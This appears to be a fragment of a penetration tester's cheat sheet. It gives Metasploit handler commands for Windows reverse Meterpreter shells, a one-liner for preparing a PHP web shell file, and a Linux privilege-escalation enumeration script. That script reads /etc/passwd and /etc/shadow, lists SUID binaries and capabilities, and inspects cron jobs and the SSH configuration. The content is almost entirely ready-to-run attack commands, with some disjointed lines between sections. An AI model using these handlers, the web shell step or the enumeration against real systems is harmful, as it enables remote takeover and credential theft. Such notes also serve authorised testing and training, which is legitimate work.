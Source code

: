 ### Windows Reverse Meterpreter Handlers 
 ```
     handler -H LHOST -P port -p windows/x64/meterpreter_reverse_https
     handler -P <PORT> -p multi/meterpreter/reverse_http
     handler -P <PORT> -p multi/meterpreter/reverse_https
```


cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php



 
setuid doesn't work on scripts or bash


# Privesc
## Linux Privesc Enumeration
Here are some initial, basic enumeration steps to find some easy wins and some info that might be useful.
```bash
hostname
id      # who are we, and what groups are we in?
uname -a      # system stuff
cat /etc/issue    # what OS?
cat /etc/*-release  # what OS?
cat /etc/passwd     # duh
cat /etc/shadow     # probably not, but you never know
ps auxwwf           # what processes? Look for what root and other users are running
ps -eaf    #same, formatted different

sudo -l    # what can you do as a priveleged user?

ip a
ifconfig -a
/sbin/route -n
netstat -antup
ss -antup
iptables -nvL    # this is priveledged, and also you need to manually check the other tables
cat /etc/iptables/*
# find other poorly protected iptables-save output in /etc
find /etc/ -name "*iptables*" 2>/dev/null -exec ls -l {} \;

ls -lah /etc/cron*
cat /etc/crontab
crontab -l

# Find SUID and GUID binaries.
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
find / -perm -g=s -type f  -exec ls -l {} \;  2>/dev/null
find / -writable -type d 2>/dev/null

# Find capabilities. Look for cap_setuid but there are a ton of others
getcap -r / 2>/dev/null

ls -latr /home
ls -latr /etc
ls -latr /opt
ls -latr /srv

cat /etc/ssh/sshd_config

# Find files between two dates/times
find . -type f -newermt "2021-11-08 10:15:00" ! -newermt "2021-11-20 15:30:00"
```